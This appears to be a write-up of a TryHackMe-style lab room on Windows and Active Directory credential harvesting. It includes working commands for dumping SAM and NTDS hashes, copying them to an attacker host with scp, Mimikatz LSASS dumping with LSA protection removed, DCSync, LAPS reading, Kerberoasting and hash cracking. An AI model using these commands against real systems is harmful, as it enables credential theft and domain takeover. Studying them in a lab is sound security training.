






# Credential Harvesting

The tasks in this room are focused on the process of credential harvesting, which is the process of looking for stored credentials and can even include network sniffing.

Credentials can be found in a variety of different forms, such as:

- Accounts details (usernames and passwords)
- Hashes that include NTLM hashes, etc.
- Authentication Tickets: Tickets Granting Ticket (TGT), Ticket Granting Server (TGS)
- Any information that helps login into a system (private keys, etc.)

## Credential Access

Credential access is where adversaries may find credentials in compromised systems and gain access to user credentials.

### Clear-Text Credentials

The following are some of the types of clear-text files that an attacker may be interested in:

- Commands history
- Configuration files (Web App, FTP files, etc.)
- Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)
- Backup files
- Shared files and folders
- Registry
- Source code 

As an example of a history command, a PowerShell saves executed PowerShell commands in a history file in a user profile in the following path: 

```
C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

It might be worth checking what users are working on or finding sensitive information. Another example would be finding interesting information. For example, the following command is to look for the "password" keyword in the Window registry.

Looking for the "password" Keyword in the Registry

```shell-session
reg query HKLM /f password /t REG_SZ /s
#OR
reg query HKCU /f password /t REG_SZ /s
```

### Database Files

Applications utilize database files to read or write settings, configurations, or credentials. Database files are usually stored locally in Windows operating systems.

### Password Managers

A password manager is an application to store and manage users' login information for local and Internet websites and services. Since it deals with users' data, it must be stored securely to prevent unauthorized access. 

### Memory Dump

The Operating system's memory is a rich source of sensitive information that belongs to the Windows OS, users, and other applications. Data gets loaded into memory at run time or during the execution. Thus, accessing memory is limited to administrator users who fully control the system.

### Active Directory

Enumerating the Active Directory environment is one of the focuses of red team assessments. The following are some of the Active Directory misconfigurations that may leak users' credentials.

- **Users' description**: Administrators set a password in the description for new employees and leave it there, which makes the account vulnerable to unauthorized access. 
- **Group Policy SYSVOL**: Leaked encryption keys let attackers access administrator accounts. Check Task 8 for more information about the vulnerable version of SYSVOL.
- **NTDS:** Contains AD users' credentials, making it a target for attackers.
- **AD Attacks:** Misconfiguration makes AD vulnerable to various attacks, which we will discuss in Task 9.

### Network Sniffing

The Man-In-the-Middle attack against network protocols lets the attacker create a rogue or spoof trusted resources within the network to steal authentication information such as NTLM hashes.

**Question** Use the methods shown in this task to search through the Windows registry for an entry called "flag" which contains a password. What is the password?

```
reg query HKLM /f password /t REG_SZ /s | findstr flag
```

**Question** Enumerate the AD environment we provided. What is the password of the victim user found in the description section?

```
Get-ADUser -Identity Victim -Properties description
```


## Local Windows Credentials

In this task we have to perform one of the techniques discussed, using an automated approach like Hashdump with Meterpreter or two types of Manual approaches. Here I am going to showcase how to extract the sam (database) and system (decryption key) files from the target machine using two different methods.

### Manual Approach

#### Option 1: Volume Shadow Copy Service

This first approach uses the Microsoft Volume shadow copy service, which helps perform a volume backup while applications read/write on volumes.

We will be using wmic to create a shadow volume copy. This has to be done through the command prompt with **administrator privileges** as follows:

```shell-session
wmic shadowcopy call create Volume='C:\'
```

Now we are going to use vssadmin to list the shadow volume copies we have created:

```shell-session
vssadmin list shadows
```


The output shows that we have successfully created a shadow copy volume of (C:) with the following path: `\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1`. 

The SAM database is encrypted either with RC4 or AES encryption algorithms. In order to decrypt it, we need a decryption key which is stored in the file system in `c:\Windows\System32\Config\system`. 

Now we can copy the files to the desktop as follows:

```shell-session
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```

Finally we are going to transfer both files to our machine. In order to do this I started the SSH service on my end and copied the files to my Desktop:

```
sudo systemctl start ssh

scp ./sam <user>@<Attacker IP>:/path/to/file/on/my/machine
scp ./system <user>@<Attacker IP>:/path/to/file/on/my/machine
```

Great! Let's see how we can do this again by taking advantage of the Windows Registry.

#### Option 2: Registry Hives

Windows registry also stores a copy of some of the SAM database contents to be used by Windows services. Luckily, we can save the value of the Windows registry using the reg.exe tool. As previously mentioned, we need two files to decrypt the SAM database's content. Ensure you run the command prompt with Administrator privileges.

```shell-session
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg

reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```

Finally we can copy both files to our attacker machine with the same method as above, using scp.

#### Decryption using Impacket

On my kali machine I had this tool installed already as under /usr/bin. The Impacket SecretsDump script extracts credentials from a system locally and remotely using different techniques. 

```shell-session
impacket-secretsdump -sam ./sam -system ./system LOCAL
impacket-secretsdump -sam ./sam-reg -system ./system-reg LOCAL
```

The `LOCAL`argument at the end of the command to decrypt the Local SAM file as this tool handles other types of decryption. 

Great, we can see that the output of the two commands is the same and we can extract the Administrator NTLM Hash!



**Question** Follow the technique discussed in this task to dump the content of the SAM database file. What is the NTLM hash for the Administrator account?

> \<Redacted\>


## Local Security Authority Sybsystem Service (LSASS)

In this task we are going to use Mimikatz in order to dump the memory for cashed credentials and hashes. We need administrator privileges, which we luckily already have, in order to do this.

First, we need to enable the SeDebugPrivilege and check the current permissions for memory access. It can be done by executing `privilege::debug` command as follows,

```markup
privilege::debug
```

In an ideal scenario, once the privileges are given, we can access the memory to dump all cached passwords and hashes from the `lsass.exe` process using `sekurlsa::logonpasswords`.

```markup
sekurlsa::logonpasswords
```

In this case LSA protection is enabled to keep LSASS from being accessed to extract credentials from memory. Hence, we need to disable the LSA protection by modifying the registry RunAsPPL DWORD value in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` to 1.

We can verify this because by running the command above we are the 0x00000005 error code message (Access Denied).

Mimikatz provides a mimidrv.sys driver that works on kernel level to disable the LSA protection. We can import it to Mimikatz by executing "!+" as follows,

```markup
mimikatz # !+
```

Once the driver is loaded, we can disable the LSA protection by executing the following Mimikatz command:

```markup
mimikatz # !processprotect /process:lsass.exe /remove
```

Now, if we try to run the "sekurlsa::logonpasswords" command again, it must be executed successfully and show cached credentials in memory.

**Question** Is the LSA protection enabled? (Y|N)

> Y


## Windows Credential Manager

In this task we are going to extract credentials from the Windows Credential Manager using the vaultcmd utility.

```
vaultcmd /list
```


We have two vaults available: Web and Windows. We can check if there are any stored credentials with the commands below:

```
VaultCmd /listproperties:"Web Credentials"
VaultCmd /listproperties:"Windows Credentials"
```

Finally, we can list additional information with the set of commands:

```
VaultCmd /listcreds:"Web Credentials"
VaultCmd /listcreds:"Windows Credentials"
```


Great we now know that we have some available credentials for us to recover. 

### Web Credentials

The vaultcmd does not let the user read passwords but we can achieve this goal with the Get-WebCredentials Powershell script. Ensure to execute PowerShell with bypass policy to import it as a module:

```
powershell -ex bypass
Import-Module C:\Tools\Get-WebCredentials.ps1
Get-WebCredentials
```


Great we have successfully extracted the Web credentials.

**Question** Apply the technique for extracting clear-text passwords from Windows Credential Manager. What is the password of the THMuser for internal-app.thm.red?

> \<Redacted\>

### SMB Credentials

Now we are going to use a different approach, by taking advantage of the cmdkey utility we can alsocreate, delete and display stored Windows Credentials.

```
cmdkey /list
```



Great, we can see that there is a stored credentials for the thm-local user for the machine 10.10.237.226.

Hence, we can take advantage of the /savecred option in the runas utility to impersonate this user on the target machine. Let's give it a try:

```
runas /savecred /user:THM.red\thm-local cmd.exe
```

Great! We are in and we did not even have to provide any credentials for this purpose. Now we can safely browse our local user's directory and retrieve the flag under the Saved Games directory.



**Question** Run cmd.exe under thm-local user via runas and read the flag in "c:\Users\thm-local\Saved Games\flag.txt". What is the flag?

> \<Redacted\>

### Mimikatz

Additionally we can also run the Mimikatz utility to dump the credentials of the target using the command `sekurlsa::credman`. Remember to run Mimikatz as System Administrator.



**Question** Use Mimikatz to memory dump the credentials for the 10.10.237.226 SMB share which is stored in the Windows Credential vault. What is the password?

> \<Redacted\>


## Domain Controller

In this task we are going to dum the Domain Controller's hashes both locally and remotely.

### Locally Dumping (No credentials)

Performing a local dump requires the usage of the ntdsutil in order to dump three important files:

- C:\Windows\NTDS\ntds.dit
- C:\Windows\System32\config\SYSTEM
- C:\Windows\System32\config\SECURITY

The command below is used to dump the NTDS file using the Ntdsutil tool:

```
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

The files containing the information we need for the decryption process are stored in c:\temp and we can run the command below on our local machine to decrypt those same files and extract the passwords hashes:

```
impacket-secretsdump -security ./SECURITY -system ./SYSTEM -ntds ./ntds.dit local
```


Great, now we recovered the target system bootkey as well as the NTLM hash of the bk-admin account.

**Question** Apply the technique discussed in this task to dump the NTDS file locally and extract hashes. What is the target system bootkey value?

> \<Redacted\>

### Remotely Dumping (With credentials)

We can perform the same process using the set of credentials of the THM user (which has the necessary privileges) to perform a DC Sync attack in order to retrieve the hashes of all the users in the domain.

```
impacket-secretsdump -just-dc THM.red/thm@10.10.241.50
or
impacket-secretsdump -just-dc-ntlm THM.red/thm@10.10.241.50
```


### Hash Decryption

Finally, we can decrypt the hash using hashcat:

```
hashcat -m 1000 -a 0 ./crack.txt /path/to/wordlist/such/as/rockyou.txt
```

**Question** What is the clear-text password for the bk-admin username?

> \<Redacted\>


## Local Administrator Password Solution

In order to get the LAPS password of the target Computer we will have to first enumerate LAPs to see if it is enabled on our target.

```
dir "C:\Program Files\LAPS\CSE"
```

We can see that the AdmPwd.dll file is present which checks this out. Furthermore, let's see if we have access to the AdmPwd cmdlets with:

```
Get-Command *AdmPwd*
```

Great! Now we need to find which AD organizational unit (OU) has the "All extended rights" attribute that deals with LAPS. Let's use the command below to list all OUs and find which of the ones in the output can be used to continue with our attack:

```
Find-AdmPwdExtendedRights -Identity *
```


If we inspect THMorg in detail we can see more information:

```
Find-AdmPwdExtendedRights -Identity THMorg
```

We now know that the LAPs Reader group in THMorg has the ExtendedRightHolders access we need. Additionally, this group has one member: bk-admin.



**Question** Which group has ExtendedRightHolder and is able to read the LAPS password?

> LAPsReader

**Question** Which user is able to read LAPS passwords?

> bk-admin


Finally, if we login as bk-admin (we know its password from the previous task) we will be able to get the LAPS password using Get-AdmPwdPassword cmdlet by providing the target machine with LAPS enabled.

```
Get-AdmPwdPassword -ComputerName creds-harvestin
```


Great! We extracted the computer LAPs password successfully.

**Question** What is the LAPs Password for Creds-Harvestin computer?

> \<Redacted\>


## Other Attacks

In this task we are going to perform a Kerberoasting attack which takes advantage of SPN (Service Principal Name) accounts. The  Kerberoasting attack involves requesting a TGS and cracking the password hash of the service account's hashed password that is stored in the ticket. In order to ask for TGSs we need th SPNs of the service accounts. We can get them bu running the tool below:

```
impacket-GetUserSPNs -dc-ip 10.10.98.146 THM.red/thm
```


Now that we have a valid service account to target we can request a TGS ticket for the service account.

```
impacket-GetUserSPNs -dc-ip 10.10.98.146 THM.red/thm -request-user svc-thm
```



Now it is just a matter of cracking the hash offline:

```
hashcat -m 13100 -a 0 ./hash.txt /usr/share/wordlists/rockyou.txt
```

Congrats! You just finished the Credential Harvesting Room.

**Question** Enumerate for SPN users using the Impacket GetUserSPNs script. What is the Service Principal Name for the Domain Controller?

> svc-thm

**Question** After finding the SPN account from the previous question, perform the Kerberoasting attack to grab the TGS ticket and crack it. What is the password?

> \<Redacted\>